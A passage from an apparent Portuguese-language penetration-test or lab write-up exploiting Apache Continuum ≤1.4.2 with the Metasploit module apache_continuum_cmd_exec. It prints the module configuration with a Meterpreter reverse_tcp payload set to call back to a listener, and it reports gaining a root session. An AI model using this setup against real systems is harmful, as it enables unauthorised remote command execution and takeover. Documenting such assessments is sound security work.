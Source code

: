
### Apache Continuum

Foi identificado que o serviço Apache Continuum estava rodando na porta 8080 do alvo. Utilizamos o módulo do Metasploit `exploit/linux/http/apache_continuum_cmd_exec`, que explora uma vulnerabilidade nas versões ≤ 1.4.2 do Apache Continuum para permitir a execução arbitrária de comandos.

**Configuração do Módulo:**

```console
msf6 exploit(linux/http/apache_continuum_cmd_exec) > show options

Module options (exploit/linux/http/apache_continuum_cmd_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.0.207    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    8080             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.156    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Apache Continuum <= 1.4.2
```
**Execução do Exploit:**  
Ao executar o exploit, o payload foi injetado com sucesso e uma conexão reversa foi estabelecida, resultando na abertura de uma sessão Meterpreter com privilégios de root.
